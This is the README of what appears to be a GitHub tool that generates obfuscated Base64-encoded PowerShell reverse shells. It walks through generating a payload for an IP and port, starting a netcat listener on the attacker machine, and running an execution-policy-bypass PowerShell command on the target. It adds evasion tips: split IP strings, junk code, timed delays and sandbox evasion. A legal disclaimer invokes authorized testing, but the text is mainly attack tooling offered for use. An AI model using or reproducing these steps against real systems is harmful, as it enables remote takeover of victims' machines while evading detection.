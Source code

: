 # PowerShell Reverse Shell Generator

A Python-based utility for generating obfuscated Base64-encoded PowerShell reverse shells.

## Features
- IP/Port configuration through command-line arguments
- Automatic Base64 encoding with proper UTF-16LE conversion
- Basic anti-analysis patterns
- Error handling integration

## Prerequisites
- Python 3.6+
- PowerShell 5.0+

## Usage

1. Clone the repository:
```bash
git clone https://github.com/yourusername/powershell-reverse-generator.git
cd powershell-reverse-generator
```

2. Generate payload:
```bash
python ps1_encoder.py -i 192.168.1.100 -p 2222
```

3. Start listener (on attacker machine):
```bash
nc -nvlp 2222
```

4. Execute generated command on target machine

## Example Output
```powershell
powershell -nop -w 1 -ep bypass -e JABJAFQAPQAnADE...
```

## Customization Options
- Split IP address strings (e.g., `'192.168'+'.1.100'`)
- Add junk code between script blocks
- Modify the PS> prompt pattern
- Implement time-based execution delays

## Important Notes
- Always test payloads in controlled environments
- Use proper network encryption (SSL/TLS)
- Consider adding sandbox evasion techniques
- Maintain strict version control for detection testing

## Legal Disclaimer
This tool is intended for:
- Authorized penetration testing
- Educational purposes
- Security research

Always obtain proper authorization before using this tool against any network or system.